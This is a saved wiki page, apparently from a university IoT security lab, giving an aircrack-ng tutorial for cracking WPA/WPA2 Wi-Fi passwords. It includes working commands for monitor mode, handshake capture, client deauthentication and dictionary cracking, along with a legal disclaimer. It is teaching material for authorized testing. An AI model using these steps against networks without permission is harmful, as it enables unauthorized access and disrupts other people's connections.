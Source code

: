```yaml
---
cssclasses:
  - page-grid
  - pen-white
banner: "[[../03 - MEDIA & FILES/Pasted image 20241202105311.png]]"
---
```



![Pasted image 20241202105311](../03%20-%20MEDIA%20&%20FILES/Pasted%20image%2020241202105311.png)

<script>document.documentElement.className="client-js";RLCONF={"wgBreakFrames":!1,"wgSeparatorTransformTable":["",""],"wgDigitTransformTable":["",""],"wgDefaultDateFormat":"dmy","wgMonthNames":["","January","February","March","April","May","June","July","August","September","October","November","December"],"wgRequestId":"268f105de36676d5675377d2","wgCSPNonce":!1,"wgCanonicalNamespace":"","wgCanonicalSpecialPageName":!1,"wgNamespaceNumber":0,"wgPageName":"Aircrack-ng:_How_to_crack_WPA/WPA2_passwords","wgTitle":"Aircrack-ng: How to crack WPA/WPA2 passwords","wgCurRevisionId":14641,"wgRevisionId":14641,"wgArticleId":1644,"wgIsArticle":!0,"wgIsRedirect":!1,"wgAction":"view","wgUserName":null,"wgUserGroups":["*"],"wgCategories":["Documentation","Pentesting"],"wgPageContentLanguage":"en","wgPageContentModel":"wikitext","wgRelevantPageName":"Aircrack-ng:_How_to_crack_WPA/WPA2_passwords","wgRelevantArticleId":1644,"wgIsProbablyEditable":!1,"wgRelevantPageIsProbablyEditable":!1,
"wgRestrictionEdit":[],"wgRestrictionMove":[]};RLSTATE={"site.styles":"ready","noscript":"ready","user.styles":"ready","user":"ready","user.options":"loading","skins.vector.styles.legacy":"ready"};RLPAGEMODULES=["site","mediawiki.page.ready","mediawiki.toc","skins.vector.legacy.js"];</script>
<script>(RLQ=window.RLQ||[]).push(function(){mw.loader.implement("user.options@1hzgi",function($,jQuery,require,module){/*@nomin*/mw.user.tokens.set({"patrolToken":"+\\","watchToken":"+\\","csrfToken":"+\\"});
});});</script>
<link rel="stylesheet" href="/load.php?lang=en&amp;modules=skins.vector.styles.legacy&amp;only=styles&amp;skin=vector"/>
<script async="" src="/load.php?lang=en&amp;modules=startup&amp;only=scripts&amp;raw=1&amp;skin=vector"></script>
<meta name="generator" content="MediaWiki 1.37.2"/>
<meta name="format-detection" content="telephone=no"/>
<link rel="shortcut icon" href="/favicon.ico"/>
<link rel="search" type="application/opensearchdescription+xml" href="/opensearch_desc.php" title="Embedded Lab Vienna for IoT &amp; Security (en)"/>
<link rel="EditURI" type="application/rsd+xml" href="https://wiki.elvis.science/api.php?action=rsd"/>
<link rel="alternate" type="application/atom+xml" title="Embedded Lab Vienna for IoT &amp; Security Atom feed" href="/index.php?title=Special:RecentChanges&amp;feed=atom"/>
</head>
<body class="mediawiki ltr sitedir-ltr mw-hide-empty-elt ns-0 ns-subject page-Aircrack-ng_How_to_crack_WPA_WPA2_passwords rootpage-Aircrack-ng_How_to_crack_WPA_WPA2_passwords skin-vector action-view skin-vector-legacy"><div id="mw-page-base" class="noprint"></div>
<div id="mw-head-base" class="noprint"></div>
<div id="content" class="mw-body" role="main">
	<a id="top"></a>
	<div id="siteNotice"></div>
	<div class="mw-indicators">
	</div>
	<h1 id="firstHeading" class="firstHeading" >Aircrack-ng: How to crack WPA/WPA2 passwords</h1>
	<div id="bodyContent" class="vector-body">
		<div id="siteSub" class="noprint">From Embedded Lab Vienna for IoT &amp; Security</div>
		<div id="contentSub"></div>
		<div id="contentSub2"></div>
		
		<div id="jump-to-nav"></div>
		<a class="mw-jump-link" href="#mw-head">Jump to navigation</a>
		<a class="mw-jump-link" href="#searchInput">Jump to search</a>
		<div id="mw-content-text" class="mw-body-content mw-content-ltr" lang="en" dir="ltr"><div class="mw-parser-output"><div id="toc" class="toc" role="navigation" aria-labelledby="mw-toc-heading"><input type="checkbox" role="button" id="toctogglecheckbox" class="toctogglecheckbox" style="display:none" /><div class="toctitle" lang="en" dir="ltr"><h2 id="mw-toc-heading">Contents</h2><span class="toctogglespan"><label class="toctogglelabel" for="toctogglecheckbox"></label></span></div>
<ul>
<li class="toclevel-1 tocsection-1"><a href="#Summary"><span class="tocnumber">1</span> <span class="toctext">Summary</span></a></li>
<li class="toclevel-1 tocsection-2"><a href="#Requirements"><span class="tocnumber">2</span> <span class="toctext">Requirements</span></a></li>
<li class="toclevel-1 tocsection-3"><a href="#Description"><span class="tocnumber">3</span> <span class="toctext">Description</span></a>
<ul>
<li class="toclevel-2 tocsection-4"><a href="#How_to_use_aircrack-ng_for_cracking"><span class="tocnumber">3.1</span> <span class="toctext">How to use aircrack-ng for cracking</span></a></li>
<li class="toclevel-2 tocsection-5"><a href="#Used_Hardware"><span class="tocnumber">3.2</span> <span class="toctext">Used Hardware</span></a></li>
<li class="toclevel-2 tocsection-6"><a href="#Step_1"><span class="tocnumber">3.3</span> <span class="toctext">Step 1</span></a></li>
<li class="toclevel-2 tocsection-7"><a href="#Step_2"><span class="tocnumber">3.4</span> <span class="toctext">Step 2</span></a></li>
<li class="toclevel-2 tocsection-8"><a href="#Step_3"><span class="tocnumber">3.5</span> <span class="toctext">Step 3</span></a></li>
<li class="toclevel-2 tocsection-9"><a href="#Step_4"><span class="tocnumber">3.6</span> <span class="toctext">Step 4</span></a></li>
</ul>
</li>
<li class="toclevel-1 tocsection-10"><a href="#Other_Guides"><span class="tocnumber">4</span> <span class="toctext">Other Guides</span></a></li>
<li class="toclevel-1 tocsection-11"><a href="#References"><span class="tocnumber">5</span> <span class="toctext">References</span></a></li>
</ul>
</div>

<h2><span class="mw-headline" id="Summary">Summary</span></h2>
<p>This documentation is a step-by-step guide explaining how to use the aircrack-ng program suite to crack passwords of Wireless Access Points using WPA or WPA2. The guide is meant for usage on *NIX systems capable of installing and running aircrack-ng. Results are based on tests that were run on the Kali Linux custom image for VMware (Kali Linux 2020.4 64bit) wich is maintained and provided by Offensive Security <a rel="nofollow" class="external autonumber" href="https://images.kali.org/virtual-images/kali-linux-2020.4-vmware-amd64.7z">[1]</a>. The used client software was VMware Workstation Pro 16.1.0 build-17198959 and the used host system was Windows 10 Home Edition (64 bit).   
</p>
<h2><span class="mw-headline" id="Requirements">Requirements</span></h2>
<ul><li>Operating system: Kali Linux</li>
<li>Packages: aicrack-ng program suite</li></ul>
<p>If you want to install aircrack-ng from source, click here <a rel="nofollow" class="external autonumber" href="https://www.aircrack-ng.org/doku.php?id=install_aircrack">[2]</a> to access the official documentation.
</p><p>On the image that was used (Kali Linux 2020.4 64bit for VMware by Offensive Security), the aicrack-ng program suite is already preinstalled. Just type <b>sudo aircrack-ng</b> in the shell to get an overview of available options. You will only need a few specific programs and options for cracking WPA/WPA2 PSK, which are explained in the following sections.
</p>
<h2><span class="mw-headline" id="Description">Description</span></h2>
<p>If you want to learn more about the inner workings of aicrack-ng's WPA/WPA2 PSK cracking, you can read more on the section about <a href="/index.php?title=Password_Cracking" title="Password Cracking">Password Cracking</a>.
</p><p>Before we get down to the nitty-gritty, there is some information that has to be known to be able to "get cracking".
</p><p>What we need:
</p>
<pre> MAC address of machine running aircrack-ng suite
 MAC address of wireless client using WPA/WPA2
 BSSID (MAC address of victim access point)
 ESSID (Wireless network name)
 Access point channel number
 Wireless interface name
</pre>
<p>We need all of this to fill out the necessary portions of the following commands.
</p><p>The guide itself was summarized from official documentation <a rel="nofollow" class="external autonumber" href="https://www.aircrack-ng.org/doku.php?id=cracking_wpa">[3]</a> and tested in my home network.
</p><p><b>Disclaimer: The following guide must not be used on networks without permission. Doing so is illegal and can result in criminal charges.</b>
</p>
<h3><span class="mw-headline" id="How_to_use_aircrack-ng_for_cracking">How to use aircrack-ng for cracking</span></h3>
<pre> 1. Start the wireless interface in monitor mode on the specific AP channel
 2. Start airodump-ng on AP channel with filter for bssid to collect authentication handshake
 3. Use aireplay-ng to deauthenticate the wireless client
 4. Run aircrack-ng to crack the pre-shared key using the authentication handshake
</pre>
<h3><span class="mw-headline" id="Used_Hardware">Used Hardware</span></h3>
<p>Before we start, there is one thing more that needs to be addressed. To be able to capture and inject packets, it is neccessary to put the network interface card (NIC) of the machine running the aircrack-ng program suite into so called "promiscuous mode". In general, NICs do not use this mode, as they do not need to read packets that are not addressed to them. Since we are trying to do something "out of the ordinary" here (e.g. capture all network traffic and inject our own packets) we can only succeed if our NIC knows that it should do exactly that.
</p><p>This can be done by either manually updating the drivers <a rel="nofollow" class="external autonumber" href="https://www.aircrack-ng.org/doku.php?id=patching">[4]</a>, which can be quite cumbersome, or by buying a Wireless USB Adapter using a chipset that is supported by the machine running the aircrack-ng suite. In our special case, we do not even have the freedom of doing our own dirty work - according to Kali Linux official documentation regarding virtual machines, we are forced to use an adapter, as patching only works in a native environment.
</p><p>The problem is that a lot of products are available who promise to do what we want, but not a lot of them actually work. Oftentimes, chipsets are not compatible with Kali Linux, which would make the device unusable for our purposes. For this specific documentation, the USB Wireless Adapter "Panda Wireless PAU05" for 802.11n was used, and the product version was 2.6.15. If you use this device, you should be fine - but only in 2.4 Ghz range. Also, high digit channels like 111 are not supported. Sorry!
</p><p>If you want to be 100% sure if your device is up to the job, you can manually test injection capabilities by entering the following commmand in the shell:
</p>
<pre> <b>sudo aireplay-ng -9 -e &lt;ESSID&gt; -a &lt;BSSID&gt; &lt;interface&gt;</b>
	 -9 means injection test
	 -e is the wireless network name that is shown (ESSID)
	 -a is the MAC address of the victim access point (BSSID)
	 &lt;interface&gt; is the wireless interface name from the machine you are running aircrack-ng on
</pre>
<h3><span class="mw-headline" id="Step_1">Step 1</span></h3>
<p>Use airmon-ng to disable the network-manager service and prevent it from overwriting our settings, and to start capturing traffic on the channel used by the victim AP.
</p><p>Enter these commands in the shell
</p>
<pre> <b>sudo airmon-ng check kill</b>
 <b>sudo airmon-ng start &lt;interface&gt; &lt;channel&gt;</b>
</pre>
<h3><span class="mw-headline" id="Step_2">Step 2</span></h3>
<p>Start airodump-ng on the AP channel to collect the 4-way-handshake (only occurs when a client connects to the AP)
</p><p>Enter this command in the shell
</p>
<pre> <b>sudo airodump-ng -c &lt;channel&gt; --bssid &lt;BSSID&gt; -w psk &lt;interface&gt;</b>
	 -c is the number of the channel used by the wireless access point
	 --bssid is the MAC address of the victim access point. This eliminates extraneous traffic.
	 -w psk is the file name prefix for the file which will contain the IVs. Captured files are saved automatically to the folder you run aircrack-ng from.
	 &lt;interface&gt; is the interface name.
</pre>
<h3><span class="mw-headline" id="Step_3">Step 3</span></h3>
<p>Use aireplay-ng to deauthenticate AP client. You need this to force it to reconnect if it was already connected to the AP when you started capturing traffic. You need the 4-way-handshake for cracking, and if you do not deauthenticate the client by force (through packet injection) you will have to wait until it disconnects and reconnects again, which can take a long time, or maybe will not happen at all. This is why you need a NIC or Adapter that is capable of packet injection.
</p><p>Enter this command in the shell
</p>
<pre> <b>sudo aireplay-ng -0 1 -a &lt;BSSID&gt; -c &lt;client&gt; &lt;interface&gt;</b>
	 -0 means deauthentication
	 1 is the number of deauths to send (you can send multiple if you wish)
	 -a is the MAC address of the victim access point
	 -c is the MAC address of the wireless client you are deauthing
	 &lt;interface&gt; is the interface name
</pre>
<h3><span class="mw-headline" id="Step_4">Step 4</span></h3>
<p>Run aircrack-ng to start a dictionary attack on the PCAP file (the file containing all the captured packets).
</p><p>Enter this command in the shell
</p>
<pre> <b>sudo aircrack-ng -w /link/to/passwordlist -b &lt;BSSID&gt; psk*.cap</b>
	 -w is the full path to the dictionary file used for cracking. You don't need to specify full path if the file is located in the same directory.
	 *.cap is the extension of files containing captured packets. Through usind the wildcard * all files are included that have the *.psk ending.
</pre>
<p>Important: You need to use a dictionary attack to be able to crack WPA/WPA2 passwords. Brute forcing does not work. Cracking WPA/WPA2 passwords after getting the 4-way-handshake will only work if the password is in the list. If the victim AP makes use of a randomly generated password of a certain (large) size, our chances of getting the password will be next to nil. So always choose a robust password for your own setup, to make evil hackers lifes miserable!
